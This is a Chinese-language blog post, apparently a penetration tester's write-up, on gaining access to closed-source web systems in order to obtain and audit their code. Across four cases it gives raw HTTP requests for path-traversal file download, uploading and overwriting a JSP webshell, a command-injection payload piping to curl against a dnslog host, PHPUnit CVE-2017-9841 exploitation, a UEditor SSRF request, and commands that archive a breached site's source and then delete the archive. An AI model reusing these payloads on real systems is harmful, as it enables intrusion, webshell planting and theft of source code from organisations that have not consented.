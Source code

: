 ```
标题: "无"源码环境下的代码审计之旅
创建: 2021-06-22
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

分享一下前段时间遇到的系统无源码(不开源)的代码审计(捡漏)tips
- 任意文件读取/下载
- 在线审计
- n(1)day -> 0day
- getshell后 打包源码
- 是否出现常见漏洞组件或框架（编辑器/shiro/fastjson等）

---

### 案例1

> 跟着团队大哥的操作学习

发现一处文件下载的地方

```http
GET /download?module=&method=Download&name=test.zip&filepath=doc/test.zip HTTP/1.1
Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate
```

burp抓包，换为post请求发现可下载任意文件

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../webapps/WEB-INF/web.xml
```

读取日志文件判断class文件的位置

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../logs/catalina.2021-xx-xx.log
```

下载class文件分析审计

在/download路由下的servlet存在上传文件和更新文件的操作

首先上传一个空文件到web目录：

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=upload&txtFile_Name=x.jsp&home=/&filepath=../webapps/
```

再更新文件内容为webshell:

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate

module=&method=updateContent&home=/&filepath=../webappsdebugx.jsp&content=xxxxxx()
```

### 案例2

某系统存在弱口令+后台RCE，打包源码

```shell
# 打包源码
tar -zcvf /usr/abc/www/xx.tar.gz /usr/abc/www/
# 下载源码 
http://www.xxx.com/xx.tar.gz
# 删除压缩包
rm -f xx.tar.gz
```

下载后进行代码审计
- 任意文件下载 1枚
- 后台RCE 1枚

**任意文件下载**

![](./img/1706969364849.png)

很明显的漏洞点，可用../进行目录穿越

```
/?c=backup&a=download&file=../../../../../../../../../etc/passwd
```

![](./img/1706969388299.png)


**后台RCE**

![](./img/1706969410696.png)

同样，也是明显的漏洞点，直接拼接了没经过滤的参数destip

```
/?c=maintain&a=iptrace

post:destip=127.0.0.1|curl q2tsgk.dnslog.cn
```

![](./img/1706969439814.png)


### 案例3

某系统使用了存在漏洞的框架

通过目录扫描/探测


![](./img/1706969466631.png)

发现了该系统存在路径

```
vendor/phpunit/src/Util/PHP/eval-stdin.php
```

瞬间想起了之前复现过的漏洞
- 框架：PHPUnit
- 编号：CVE-2017-9841

直接用工具打一波

![](./img/1706969506078.png)

提取指纹，看看互联网案例

![](./img/1706969518229.png)

影响范围还行，拿shell, 借用源码，继续审计。


### 案例4

某oa系统使用了存在漏洞的编辑器

使用nday拿到shell, 打包源码下载，然后进行代码审计。

在其目录机构中发现了ueditor

![](./img/1706969548026.png)

```
/ueditor/jsp/controller.jsp?action=catchimage&source[]=http://dnslog.cn/test.jpg
```

找了张当时刚捡到漏洞并验证的截图

![](./img/1706969570536.png)

...

---

欢迎一'点'三连（点分享+点赞+点在看）




















